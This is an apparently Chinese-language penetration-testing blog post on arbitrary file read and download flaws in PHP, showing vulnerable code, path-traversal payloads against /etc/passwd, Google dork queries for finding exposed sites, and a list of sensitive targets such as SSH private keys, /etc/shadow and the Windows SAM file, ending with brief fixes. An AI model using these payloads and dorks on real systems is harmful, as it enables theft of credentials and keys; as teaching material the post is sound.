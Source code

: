 +++
date = "2016-07-27T23:25:18+08:00"
description = ""
draft = false
tags = ["任意文件查看与下载漏洞"]
title = "任意文件查看与下载漏洞"
topics = ["Pentest"]

+++

### 0x00 漏洞介绍
> ```
一些网站由于业务需求，往往需要提供文件查看或文件下载功能，但若对用户查看或下载的文件
不做限制，则恶意用户就能够查看或下载任意敏感文件，这就是文件查看与下载漏洞
```

### 0x01 利用条件
> ```
* 存在读文件的函数
* 读取文件的路径用户可控且未校验或校验不严
* 输出了文件内容
```

### 0x02 漏洞危害
> ```
下载服务器任意文件，如脚本代码、服务及系统配置文件等
可用得到的代码进一步代码审计，得到更多可利用漏洞
```

### 0x03 任意文件读取
> 代码形式可如下几种：
```php
<?php
    $filename = "test.txt";
    readfile($filename);
?>

<?php
    $filename = "test.txt";

    $fp = fopen($filename,"r") or die("Unable to open file!");
    $data = fread($fp,filesize($filename));
    fclose($fp);

    echo "<pre>";
        print_r(htmlspecialchars($data));
    echo "</pre>";
?>

<?php
    $filename = "test.txt";
    $data = file_get_contents($filename);

    echo "<pre>";
        print_r(htmlspecialchars($data));
    echo "</pre>";
?>
```

### 0x04 任意文件下载
> 直接下载：
```
<a href="http://www.xx.com/a.zip">Download</a>
```
用header()下载：
```php
<?php
    $filename = "uploads/201607141437284653.jpg";

    header('Content-Type: imgage/jpeg');
    header('Content-Disposition: attachment; filename='.$filename);
    header('Content-Lengh: '.filesize($filename));
    readfile($filename);
?>
```

### 0x05 漏洞利用代码
> ```php
readfile.php?file=/etc/passwd
readfile.php?file=../../../../../../../../etc/passwd
readfile.php?file=../../../../../../../../etc/passwd%00
```

### 0x06 Google search
> ```
inurl:"readfile.php?file="
inurl:"read.php?filename="
inurl:"download.php?file="
inurl:"down.php?file="
等等...
```

### 0x07 漏洞挖掘
> ```
可以用Google hacking或Web漏洞扫描器
从链接上看，形如：
    • readfile.php?file=***.txt
    • download.php?file=***.rar
从参数名看，形如：
    • &RealPath= 
    • &FilePath= 
    • &ﬁlepath= 
    • &Path= 
    • &path= 
    • &inputFile= 
    • &url= 
    • &urls= 
    • &Lang= 
    • &dis= 
    • &data= 
    • &readﬁle= 
    • &ﬁlep= 
    • &src= 
    • &menu= 
    • META-INF 
    • WEB-INF
```

### 0x08 敏感文件如下
> ```
Windows：
    C:\boot.ini  //查看系统版本
    C:\Windows\System32\inetsrv\MetaBase.xml  //IIS配置文件
    C:\Windows\repair\sam  //存储系统初次安装的密码
    C:\Program Files\mysql\my.ini  //Mysql配置
    C:\Program Files\mysql\data\mysql\user.MYD  //Mysql root
    C:\Windows\php.ini  //php配置信息
    C:\Windows\my.ini  //Mysql配置信息
    ...
Linux：
    /root/.ssh/authorized_keys
    /root/.ssh/id_rsa
    /root/.ssh/id_ras.keystore
    /root/.ssh/known_hosts
    /etc/passwd
    /etc/shadow
    /etc/my.cnf
    /etc/httpd/conf/httpd.conf
    /root/.bash_history
    /root/.mysql_history
    /proc/self/fd/fd[0-9]*(文件标识符)
    /proc/mounts
    /porc/config.gz
```

### 0x09 漏洞验证
> ```
• index.php?f=../../../../../../etc/passwd 
• index.php?f=../index.php 
• index.php?f=ﬁle:///etc/passwd
注：当参数f的参数值为php文件时，若是文件被解析则是文件包含漏洞，
    若显示源码或提示下载则是文件查看与下载漏洞
```

### 0x0A 修复方案
> ```
* 过滤点(.)，使用户在url中不能回溯上级目录
* 正则严格判断用户输入参数的格式
* php.ini配置open_basedir限定文件访问范围
```